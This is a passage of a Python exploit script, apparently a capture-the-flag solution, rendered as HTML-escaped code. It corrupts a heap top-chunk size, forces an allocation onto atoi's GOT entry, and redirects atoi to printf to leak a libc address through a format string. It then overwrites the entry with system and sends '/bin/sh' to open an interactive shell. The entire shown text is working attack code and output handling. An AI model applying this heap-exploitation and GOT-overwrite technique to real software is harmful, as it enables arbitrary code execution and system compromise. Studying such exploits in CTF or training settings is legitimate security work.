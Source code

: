 s.send(&quot;a&quot;*0x40)
s.sendline(&quot;\xff&quot;*4)
s.recvuntil(&#39;OKay! Enjoy:)&#39;)

howmany = atoi_got-0x8-0x4+0xffffffff+1-top
atoi = howmany-0x100000000
print &quot;malloc(&quot;,hex(howmany),&quot;) real : &quot;,atoi

makenote(atoi,&#39;a\n&#39;)
makenote(8,&quot;AAAA&quot;+p32(printf_plt))
s.sendline(&#39;%x%x %x&#39;)
s.recvuntil(&#39;10a &#39;)
libc = int(&#39;0x&#39;+s.recv(8),16)-300694+one+324
print &quot;system : &quot;,hex(libc)
s.sendline(&#39;123&#39;)
s.sendline(&#39;1&#39;)
s.send(&quot;AAAA&quot;+p32(libc))
s.sendline(&#39;/bin/sh&#39;)

s.interactive()</code></pre></div>
